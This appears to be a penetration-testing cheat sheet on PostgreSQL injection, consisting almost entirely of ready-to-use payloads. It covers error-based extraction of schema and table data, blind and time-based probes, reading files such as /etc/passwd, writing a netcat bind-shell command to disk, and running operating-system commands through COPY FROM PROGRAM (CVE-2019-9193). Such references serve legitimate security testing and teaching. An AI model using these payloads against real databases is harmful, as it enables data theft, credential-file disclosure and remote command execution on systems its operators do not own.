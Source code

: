 # PostgreSQL injection

## Summary

* [PostgreSQL Comments](#postgresql-comments)
* [PostgreSQL Error Based](#postgresql-error-based)
* [PostgreSQL Blind](#postgresql-blind)
* [PostgreSQL Time Based](#postgresql-time-based)
* [PostgreSQL File Read](#postgresql-file-read)
* [PostgreSQL File Write](#postgresql-file-write)
* [PostgreSQL Command execution](#postgresql-command-execution)
* [References](#references)

## PostgreSQL Comments

```sql
--
/**/  
```

## PostgreSQL Error Based

```sql
,cAsT(chr(126)||vErSiOn()||chr(126)+aS+nUmeRiC)
,cAsT(chr(126)||(sEleCt+table_name+fRoM+information_schema.tables+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)--
,cAsT(chr(126)||(sEleCt+column_name+fRoM+information_schema.columns+wHerE+table_name=data_column+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)--
,cAsT(chr(126)||(sEleCt+data_column+fRoM+data_table+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)
```

## PostgreSQL Blind

```sql
' and substr(version(),1,10) = 'PostgreSQL' and '1  -> OK
' and substr(version(),1,10) = 'PostgreXXX' and '1  -> KO
```

## PostgreSQL Time Based

```sql
AND [RANDNUM]=(SELECT [RANDNUM] FROM PG_SLEEP([SLEEPTIME]))
AND [RANDNUM]=(SELECT COUNT(*) FROM GENERATE_SERIES(1,[SLEEPTIME]000000))
```

## PostgreSQL File Read

```sql
select pg_ls_dir('./');
select pg_read_file('PG_VERSION', 0, 200);
```

NOTE: ``pg_read_file` doesn't accept the `/` character.

```sql
CREATE TABLE temp(t TEXT);
COPY temp FROM '/etc/passwd';
SELECT * FROM temp limit 1 offset 0;
```

## PostgreSQL File Write

```sql
CREATE TABLE pentestlab (t TEXT);
INSERT INTO pentestlab(t) VALUES('nc -lvvp 2346 -e /bin/bash');
SELECT * FROM pentestlab;
COPY pentestlab(t) TO '/tmp/pentestlab';
```

## PostgreSQL Command execution

CVE-2019–9193, can be used from [Metasploit](https://github.com/rapid7/metasploit-framework/pull/11598) if you have a direct access to the database, otherwise you need to execute manually the following SQL queries. 

```SQL
DROP TABLE IF EXISTS cmd_exec;          -- [Optional] Drop the table you want to use if it already exists
CREATE TABLE cmd_exec(cmd_output text); -- Create the table you want to hold the command output
COPY cmd_exec FROM PROGRAM 'id';        -- Run the system command via the COPY FROM PROGRAM function
SELECT * FROM cmd_exec;                 -- [Optional] View the results
DROP TABLE IF EXISTS cmd_exec;          -- [Optional] Remove the table
```

![https://cdn-images-1.medium.com/max/1000/1*xy5graLstJ0KysUCmPMLrw.png](https://cdn-images-1.medium.com/max/1000/1*xy5graLstJ0KysUCmPMLrw.png)

## References

* [A Penetration Tester’s Guide to PostgreSQL - David Hayter](https://medium.com/@cryptocracker99/a-penetration-testers-guide-to-postgresql-d78954921ee9)
* [Authenticated Arbitrary Command Execution on PostgreSQL 9.3 > Latest - Mar 20 2019 - GreenWolf](https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5)
* [SQL Injection /webApp/oma_conf ctx parameter (viestinta.lahitapiola.fi) - December 8, 2016 - Sergey Bobrov (bobrov)](https://hackerone.com/reports/181803)